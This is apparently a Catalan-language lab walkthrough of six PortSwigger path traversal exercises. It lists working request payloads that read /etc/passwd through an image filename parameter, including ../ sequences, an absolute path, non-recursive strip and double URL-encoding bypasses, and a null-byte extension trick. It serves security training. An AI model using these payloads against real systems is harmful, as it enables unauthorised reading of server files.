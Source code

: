# DIRECTORY TRAVERSAL LABS: https://portswigger.net/web-security/file-path-traversal

### TOTS els Path Traversal es faran en el paràmetre de les imatges

## **Lab 1**: File path traversal, simple case

    - TENIM: GET /image?filename=16.jpg HTTP/1.1
    - POSEM: GET /image?filename=../../../../../../../../etc/passwd HTTP/1.1

## **Lab 2**: File path traversal, traversal sequences blocked with absolute path bypass

    - TENIM: GET /image?filename=30.jpg HTTP/1.1
    - POSEM: GET /image?filename=/etc/passwd HTTP/1.

## **Lab 3**: File path traversal, traversal sequences stripped non-recursively

    - TENIM: GET /image?filename=40.jpg HTTP/1.1
    - POSEM: GET /image?filename=....//....//....//....//....//....//....//etc/passwd HTTP/1.1

## **Lab 4**: File path traversal, traversal sequences stripped with superfluous URL-decode

    - TENIM: GET /image?filename=11.jpg HTTP/1.1
        FEM: GET /image?filename=../etc/passwd HTTP/1.1 i la barra '/' li fem un URL DECODER
        (Burpsuite: seleccionem la / >  click dret > convert selection > URL > URL Encode All Characters)
        ARA TENIM: GET /image?filename=..%2fetc/passwd HTTP/1.1
        Fem el mateix amb el '%'.
        ARA TENIM: GET /image?filename=..%252fetc/passwd HTTP/1.1
    - POSEM: GET /image?filename=..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd HTTP/1.1
## **Lab 5**: File path traversal, validation of start of path

    - TENIM: GET /image?filename=/var/www/images/21.jpg HTTP/1.1
    - POSEM: GET /image?filename=/var/www/images/../../../../../../../etc/passwd HTTP/1.1

## **Lab 6**: File path traversal, validation of file extension with null byte bypass

    - TENIM: GET /image?filename=20.jpg HTTP/1.1
    - POSEM: GET /image?filename=../../../../../../../etc/passwd%00.jpg HTTP/1.1 (concepte de 'null byte')